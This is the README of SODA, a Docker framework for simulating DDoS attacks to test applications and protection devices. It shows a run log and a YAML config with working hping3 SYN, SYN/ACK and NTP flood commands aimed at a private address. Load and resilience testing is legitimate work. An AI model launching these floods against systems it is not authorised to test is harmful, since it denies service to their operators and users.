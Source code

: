 # Simulation of DDoS Attacks
SODA framework allows to launch any kind of DDoS attacks to discover your application weaknesses or evaluate DDoS protection device configuration.
# Requirements
Docker engine needs to be installed
# Usage
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock -v $(pwd)/soda.yml:/app/soda.yml soda 10.11.73.12 -t 1 -n vlan973 -i 5
2019-05-30 17:56:47.643947 ATTACK START: SYN Flood: ['hping3', '-S', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:56:53.575779 ATTACK STOP: SYN Flood
2019-05-30 17:56:53.993703 ATTACK START: NTP Flood: ['hping3', '-2', '-p', '123', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
2019-05-30 17:56:59.923751 ATTACK STOP: NTP Flood
2019-05-30 17:57:00.365518 ATTACK START: SYN/ACK Flood: ['hping3', '-SA', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:57:06.262938 ATTACK STOP: SYN/ACK Flood
2019-05-30 17:57:06.678110 ATTACK START: NTP Non-standard Port Flood: ['hping3', '-2', '-p', '++1', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
^CKilling all running containers...
goofy_keldysh
```
# Configuration
soda.yml config file allows to specify what kind of attacks you want to launch. This file contains yaml declaration for tool name and it's paramaeters.
```
attacks:
  - type: "SYN Flood"
    tool: "hping3"
    flags:
      - "-S"
      - "-p 80"
      - "--flood"
  - type: "NTP Flood"
    tool: "hping3"
    flags:
      - "-2"
      - "-p 123"
      - "-s 123 -k"
      - "-d 64"
      - "--flood"
  - type: "SYN/ACK Flood"
    tool: "hping3"
    flags:
      - "-SA"
      - "-p 80"
      - "--flood"
```
